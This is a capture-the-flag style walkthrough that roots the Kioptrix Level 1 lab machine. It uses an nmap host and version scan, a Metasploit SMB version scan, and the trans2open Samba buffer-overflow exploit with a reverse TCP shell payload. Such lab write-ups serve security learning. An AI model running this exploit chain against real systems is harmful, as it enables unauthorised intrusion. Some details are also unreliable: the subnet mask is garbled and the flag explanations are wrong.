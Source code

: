 # Kioptrix: Level 1

### Solved using Metasploit

Let Host discovery from Attack machine , run `ifconifg` and note our machine ip `192.168.69.5` , so network IP range will be `192.168.69.0` - `192.168.69.255` with subnet of `255:225:225:0`

`-sn` Ping Scan Disable port

```
nmap -sn -oN host_discovery.txt 192.168.69.0/24
```

output

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 23:24 CDT
Nmap scan report for 192.168.69.1
Host is up (0.00022s latency).
Nmap scan report for 192.168.69.5
Host is up (0.00013s latency).
Nmap scan report for 192.168.69.6                <<<<<< vuln machine
Host is up (0.00046s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.91 seconds
```

we got machine running on 192.168.69.6

<img src="../img/Pasted image 20240529095558.png" alt="Example Image" width="1080"/>

Version Scan

```
nmap -sV 192.168.69.6
```

```
-sV: Probe open ports to determine service/version info
             --version-intensity <level>: Set from 0 (light) to 9 (try all probes)
             --version-light: Limit to most likely probes (intensity 2)
             --version-all: Try every single probe (intensity 9)
             --version-trace: Show detailed version scan activity (for debugging)
```

output

```
└─$ nmap -sV -oN version_scan.txt 192.168.69.6
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 23:27 CDT
Nmap scan report for 192.168.69.6
Host is up (0.00042s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
```

`-sV` enable OS detection and version detection , script scanning , traceroute

we know it running , Samba and its Server Message Block server ,then find version of that service , using Metasploit , search `smb_version` exploit in Metasploit , and got `auxiliary/scanner/smb/smb_version`

```
msfconsole
use auxiliary/scanner/smb/smb_version
show options
```

```
Name     Current Setting  Required  Description
----     ---------------  --------  -----------
RHOSTS                    yes       The target host(s)
```

set target machine ip for `rhosts`

```
msf6 auxiliary(scanner/smb/smb_version) > set rhosts 192.168.69.6
rhosts => 192.168.69.6
exploit
```

```
[*] 192.168.69.6:139      - SMB Detected (versions:) (preferred dialect:) (signatures:optional)
[*] 192.168.69.6:139      -   Host could not be identified: Unix (Samba 2.2.1a) <<<<<,
[*] 192.168.69.6:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/

it looks like version Samba 2.2.1a is vulnerable to `exploit/linux/samba/trans2open`

Description of trans2open

```
This exploits the buffer overflow found in Samba versions
  2.2.0 to 2.2.8. This particular module is capable of
  exploiting the flaw on x86 Linux systems that do not
  have the noexec stack option set.
```

```
use  exploit/linux/samba/trans2open
set payload generic/shell_reverse_tcp    # Becuase no payload has been configed
set rhosts 192.168.69.6
run
```

Boom !!! we got root flag

<img src="../img/Pasted image 20240529101919.png" alt="Example Image" width="1080"/>

I Escalated Root Access !!
